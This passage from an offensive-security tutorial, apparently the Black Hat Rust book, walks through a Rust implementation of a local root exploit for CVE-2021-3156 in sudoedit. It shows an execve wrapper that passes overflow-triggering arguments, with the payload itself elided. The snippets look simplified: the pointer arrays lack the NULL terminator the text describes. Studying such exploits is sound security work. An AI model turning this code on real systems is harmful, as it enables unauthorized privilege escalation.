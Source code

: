 
Finally, the actual exploit.

Feel free to browse the code in the GitHub repository for the details. Here we are going to focus on the interesting bits of the implementation.

In idiomatic Rust, you would use [`std::process::Command`](https://doc.rust-lang.org/std/process/struct.Command.html) to execute an external program.

```rust
let env = [("var", "value")];
let env: HashMap<String, String> = env.iter().map(|e| (e.to_string(), e.to_string())).collect();

let args = ["-A", "-s", "AAAAA..."];


Command::new("sudoedit")
    .stdin(Stdio::null())
    .stdout(Stdio::inherit())
    .env_clear()
    .envs(&env)
    .args(args.iter())
    .spawn()
    .expect("running printenv");
```

Unfortunately, Rust's API is "too safe" for our use case and doesn't allow us to play with the memory as we want to overflow the buffer.


This is where `libc` comes into play. By using `libc::execve` we can fully control the layout of the memory.

The trick is to turn a Rust array of `&str` into a `C` array of pointers to `C` strings (which a `NULL` terminated array of `*char`, `*char[]`) for `execve`'s `args` and `env` arguments.

**[ch_07/exploits/cve_2021_3156/exploit/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_07/exploits/cve_2021_3156/exploit/src/main.rs)**
```rust
use std::ffi::CString;
use std::os::raw::c_char;

fn main() {
    let args = ["sudoedit", "-A", "-s", "AA..."];
    let args: Vec<*mut c_char> = args
        .iter()
        .map(|e| CString::new(*e).expect("building CString").into_raw())
        .collect();
    let args: &[*mut c_char] = args.as_ref();


    let env = ["..."];
    let env: Vec<*mut c_char> = env
        .iter()
        .map(|e| CString::new(*e).expect("building CString").into_raw())
        .collect();
    let env: &[*mut c_char] = env.as_ref();

    unsafe {
        libc::execve(
            "/usr/bin/sudoedit".as_ptr() as *const i8,
            args.as_ptr() as *const *const i8,
            env.as_ptr() as *const *const i8,
        );
    }
}
```
